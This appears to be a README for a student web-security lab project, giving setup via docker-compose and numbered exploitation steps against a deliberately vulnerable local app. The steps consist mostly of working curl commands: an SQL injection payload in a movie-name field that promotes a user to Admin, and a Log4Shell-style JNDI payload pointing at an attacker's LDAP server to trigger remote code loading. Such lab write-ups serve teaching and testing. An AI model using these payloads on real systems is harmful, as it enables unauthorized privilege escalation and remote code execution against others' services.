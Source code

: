 # TP Seguridad en Applicaciones Web

## [Demo video](https://drive.google.com/file/d/1Jy41PdcE7lbrG2uBrEBUVRorgJiRW0ne)


## Running the application

Build it yourself (you don't need any Java-related tooling):

```bash
docker-compose up
```

## Exploitation steps

1. Modify de local storage role, from User to Enterprise

2. Make admin with SQLi

```bash
curl --location --request POST 'http://localhost:8080/movie' \
--header 'Content-Type: application/json' \
--data-raw '{
"name": "ppppppp'\''); update users set role='\''Admin'\'' where email = '\''admin3@gmail.com'\'';--"
}'
```

3. Setup de exploit env and send this request

```bash
curl --location --request PUT 'http://localhost:8080/user?email=admin3@gmail.com' \
--header 'Content-Type: application/json' \
--data-raw '{
        "role": "${jndi:ldap://IP:1389/a}"
}'
```
